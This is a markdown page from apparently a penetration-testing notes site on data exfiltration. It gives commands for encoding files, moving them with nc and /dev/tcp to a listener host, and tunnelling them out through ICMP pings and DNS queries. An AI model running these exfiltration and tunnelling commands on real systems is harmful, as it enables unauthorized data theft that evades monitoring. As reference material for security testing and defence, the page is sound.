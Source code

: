 ```yaml
---
menu: Data Exfiltration
title: Data Exfiltration and Protocol Tunneling
weight: 600
---
```


# Exfiltration

Data exfiltration,
also called data extrusion or data exportation,
is the unauthorized transfer of data
from a device or network.[^mitre-exfiltration]

## Encoding

### Base64

Linux encoding/decoding.

```sh
cat {{< param "war.tfile" >}} | base64 -w0
```

```sh
cat {{< param "war.tfile" >}} | base64 -d
```

{{<details "Parameters">}}
- `-w<col>`:  wrap encoded lines after `<col>` character (default 76).
- `-d`: decode data.
{{</details>}}

Windows encoding/decoding.

```ps
certutil -encode {{< param "war.tfile" >}} output.ext
```

```ps
certutil -decode {{< param "war.tfile" >}} output.ext
```

### Steganography

#### Cloakify [^cloakify]
```sh
python ./cloakify.py {{< param "war.tfile" >}} ./ciphers/topWebsites
```

Alternatively:

```sh
python ./cloakifyFactory
```

## File Transfer

#### wget (recursive)

```sh
wget -r {{< param "war.rhost" >}}:{{< param "war.lport" >}}
```
{{<details "Parameters">}}
- `-r`: Specify recursive download.
{{</details>}}

#### curl
```sh
curl {{< param "war.rhost" >}}/{{< param "war.tfile" >}} -o {{< param "war.tfile" >}}
```
{{<details "Parameters">}}
- `-o <file>`:  Write to `<file>` instead of stdout.
{{</details>}}

#### scp
```sh
scp user@{{< param "war.rhost" >}}:/{{< param "war.tfile" >}} .
```

#### nc

```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
nc -nv {{< param "war.lhost" >}} {{< param "war.lport" >}} < {{< param "war.tfile" >}}
```

{{<details "Parameters">}}
- `n`: don't do DNS lookups.
- `v`: prints status messages.
- `l`: listen.
- `p <port>`: local port used for listening.
{{</details>}}

#### `/dev/tcp` [^devref]
```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
cat {{< param "war.tfile" >}} > /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
```

```sh
# Sender
nc -w5 -nvlp {{< param "war.lport" >}} < {{< param "war.tfile" >}}
# Receiver
exec 6< /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
cat <&6 > {{< param "war.tfile" >}}
```

## Web Servers

### Python

```sh
python -m SimpleHTTPServer {{< param "war.lport" >}}
python3 -m http.server {{< param "war.lport" >}}
```

[Simple HTTP Server with File Upload](https://gist.github.com/touilleMan/eb02ea40b93e52604938)

### Ruby

```sh
ruby -run -e httpd . -p{{< param "war.lport" >}}
```

```sh
ruby -r webrick -e 'WEBrick::HTTPServer.new(:Port => {{< param "war.lport" >}}, :DocumentRoot => Dir.pwd).start'
```

### Perl

```sh
perl -MHTTP::Daemon -e '$d = HTTP::Daemon->new(LocalPort => {{< param "war.lport" >}}) or  +die $!; while($c = $d->accept){while($r = $c->get_request){+$c->send_file_response(".".$r->url->path)}}'
```

{{<note>}}
Install `HTTP:Daemon` if not present with: `sudo cpan HTTP::Daemon`
{{</note>}}

### PHP

```sh
php -S 127.0.0.1:{{< param "war.lport" >}}
```

### NodeJS

[http-server](https://www.npmjs.com/package/http-server)

```sh
npm install -g http-server
http-server -p {{< param "war.lport" >}}
```

[node-static](https://www.npmjs.com/package/node-static)

```sh
npm install -g node-static
static -p {{< param "war.lport" >}}
```

## FTP Servers

### Python

```sh
pip install pyftpdlib
python3 -m pyftpdlib -p {{< param "war.lport" >}}
```

### NodeJS

```sh
npm install -g ftp-srv
ftp-srv ftp://0.0.0.0:{{< param "war.lport" >}} --root ./
```

## Tunneling

### ICMP

Capture ICMP packets
with the following script:

{{<gist maxrodrigo a7a8c4bd7dfe64eb305b4c70dee70233 >}}

Generate ICMP packets from the file hexdump.

```sh
xxd -p -c 8 {{< param "war.tfile" >}} | while read h; do ping -c 1 -p $h {{< param "war.rhost" >}}; done
```

{{<details "Parameters">}}

`xxd`:
- `-p`: Output  in postscript continuous hexdump style. Also known as plain hexdump style.
- `-c <cols>`: Format `<cols>` octets per line.

`ping`:
- `-c <count>`: Stop after sending `<count>` `ECHO_REQUEST` packets.
- `-p`: You may specify up to 16 "pad" bytes to fill out the packet you send.
{{</details>}}

{{<note>}}
Match `xxd` columns (`-c 8`) with the data sliced (`packet[ICMP].load[-8:]`) in the script.
{{</note>}}

### DNS

Capture DNS packets data.

```sh
sudo tcpdump -n -i {{< param "war.liface" >}} -w dns_exfil.pcap udp and src {{< param "war.rhost" >}} and port 53
```

{{<note>}}
Remember to point the DNS resolution to where packages are being captured.
{{</note>}}

Generate DNS queries.

```sh
xxd -p -c 16 {{< param "war.tfile" >}} | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```sh
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/\1/' | uniq | paste -sd "" - | xxd -r -p
```

#### PacketWhisper [^packetwhisper]

Capture packages with `tcpdump`,
as described above.
Cloak, exfiltrate and decloak from the cli.

```sh
sudo packetWhisper.py
```

## Further Reading

- [Python HTTPS Simple Server](https://www.maxrodrigo.com/notes/python-https-simple-server.html)

[^mitre-exfiltration]: “Exfiltration, Tactic TA0010 - Enterprise.” MITRE ATT&CK®, https://attack.mitre.org/tactics/TA0010/.
[^cloakify]: TryCatchHCF. “TryCatchHCF/Cloakify: CloakifyFactory.” GitHub, https://github.com/TryCatchHCF/Cloakify.
[^devref]: “/Dev.” The Linux Documentation Project, https://tldp.org/LDP/abs/html/devref1.html.
[^packetwhisper]: TryCatchHCF. “PacketWhisper.” GitHub, https://github.com/TryCatchHCF/PacketWhisper.
